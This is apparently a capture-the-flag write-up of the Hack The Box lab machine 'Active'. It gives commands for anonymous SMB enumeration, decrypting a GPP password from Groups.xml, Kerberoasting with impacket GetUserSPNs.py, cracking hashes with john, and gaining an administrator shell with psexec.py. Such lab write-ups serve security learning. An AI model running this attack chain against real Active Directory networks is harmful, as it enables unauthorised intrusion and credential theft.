 ```yaml
---
description: https://app.hackthebox.com/machines/148
---
```


# ☢️ Active

<figure><img src="../../../.gitbook/assets/image (69).png" alt=""><figcaption></figcaption></figure>

After our nmap we see an SMB share, after trying out a few things we spot the replication share has anonymous enabled&#x20;

<figure><img src="../../../.gitbook/assets/image (70).png" alt=""><figcaption></figcaption></figure>

after a recursive search we find a Groups.xml file with interesting details

<figure><img src="../../../.gitbook/assets/image (71).png" alt=""><figcaption></figcaption></figure>

after looking it up, we found this was a gpp file and to decrypt it was very easy:

{% embed url="https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/credential-access/unsecured-credentials/group-policy-preferences/gpp-password" %}

<figure><img src="../../../.gitbook/assets/image (72).png" alt=""><figcaption></figcaption></figure>

now we need to access the share as SVC\_TGS user to see if we have more privileges&#x20;

```
smbclient -W 10.129.217.86 -U SVC_TGS //10.129.217.86/USERS
```

* `smbclient`: This is the command-line tool for interacting with SMB servers.
* `-W 10.129.217.86`: The `-W` option is used to specify the workgroup or domain. In this case, the workgroup or domain is set to "10.129.217.86."
* `-U SVC_TGS`: The `-U` option is used to specify the username for the authentication. In this case, the username is set to "SVC\_TGS."
* `//10.129.217.86/USERS`: This part specifies the target SMB server and the share or directory on that server. In this case:
  * `//10.129.217.86`: This is the IP address (or hostname) of the SMB server.
  * `/USERS`: This is the name of the shared resource or directory on the server that you are trying to access.

Now let's look for some juicy files:

<figure><img src="../../../.gitbook/assets/image (73).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (74).png" alt=""><figcaption></figcaption></figure>

use john over hashcat for it to work:

```
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

<figure><img src="../../../.gitbook/assets/image (75).png" alt=""><figcaption></figcaption></figure>

or another way to play it would've been to us GetUserSPN.py from impacket:

```
GetUserSPNs.py -request active.htb/SVC_TGS
```

<figure><img src="../../../.gitbook/assets/image (560).png" alt=""><figcaption></figcaption></figure>

put it in a hash.txt file and use john again:

```
john --wordlist=/usr/share/wordlists/rockyou.txt hashadmin.txt
```

<figure><img src="../../../.gitbook/assets/image (561).png" alt=""><figcaption></figcaption></figure>

Now we have 100 ways of going root but let's use psexec for this time:

```
psexec.py administrator@active.htbcd 
```

<figure><img src="../../../.gitbook/assets/image (562).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (563).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (564).png" alt=""><figcaption></figcaption></figure>
